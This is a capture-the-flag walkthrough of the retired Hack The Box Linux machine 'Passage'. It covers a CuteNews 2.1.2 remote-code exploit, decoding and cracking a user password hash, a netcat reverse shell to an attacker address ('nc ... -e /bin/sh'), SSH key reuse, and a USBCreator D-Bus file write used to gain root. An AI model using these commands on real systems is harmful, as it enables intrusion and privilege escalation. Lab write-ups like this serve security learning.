

Passage
1. Information
- Linux
- Medium class
- Released Sep 2020
- Retired Mar 2021
Passage is a medium-rated box with CuteNews, password cracking and an USBCreator file write exploit.
2. Foothold
Scanning with nmap -sC -sV -T4 -v passage.htb -v only gives port 80 to work with, with Apache/2.4.18.
Entering the website at port 80 gives us some immediate hints: the site uses CuteNews, that Fail2Ban is enabled and there may be a user paul since the mailto address points to paul@passage.htb. Comments seem to be enabled for anonymous users but doesn't immediately provide anything useful.
The CuteNews login page is accessible at /CuteNews which displays the version number, 2.1.2. Searching cutenews 2.1.2 exploit returns CVE-2019-11447, which works and drops a shell as www-data.
3. User
Looking at the CuteNews source, we see that the flat database exists in a cdata directory with user information in /cdata/users/. Every user seems to be split into a single file, and there is a file called lines.php which has multiple Base64-encoded rows. Let's exfiltrate and look at it:
$ wget http://passage.htb/CuteNews/cdata/users/lines
$ cat lines | xargs -I{} bash -c 'base64 -d <<< {}' 2>/dev/null
paul's user entry is found here, with the password hash. Cracking the hash with CrackStation retrieves atlanta1. Now we can log in to CuteNews as paul-coles, but it doesn't have anything useful in it.
We might try to su - paul and hope for password reuse, but the restricted shell we get from the CVE-2019-11447 POC can't do that. Let's upgrade the shell with nc -lvnp 4444 on the attacker and nc 10.10.14.41 -e /bin/sh in the restricted shell.
$ nc -lvnp 4444
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
SHELL=/bin/bash script -q /dev/null
www-data@passage:/var/www/html/CuteNews/uploads$ su - paul
su - paul
Password: atlanta1
paul@passage:~$ id
id
uid=1001(paul) gid=1001(paul) groups=1001(paul)
paul@passage:~$
We now have user access and grab the flag from paul's directory.
4. Root
Since paul doesn't have any sudo permissions and the nadav user exists on the system, we might try to escalate to nadav first.
paul has an ~/.ssh/authorized_keys entry, but it looks like the key belongs to nadav@passage. That means the key used to log in to paul user might give access to nadav. This is confirmed by running ssh nadav@localhost.
paul@passage:~$ ssh nadav@localhost
Last login: Wed Apr 7 00:40:04 2021 from 127.0.0.1
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
Executing sudo commands is still not available, but nadav is part of the sudo group. A .viminfo file in the user's home directory has traces of a vim session detailing that /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf and /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf were edited at some point.
An online search for USBCreator exploit has a POC description. If applicable, this would allow us to write arbitrary files as root wherever.
Let's try copying nadav's SSH key to root's authorized_keys this time.
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
Now, we can log in to root by executing ssh root@localhost and get the root flag.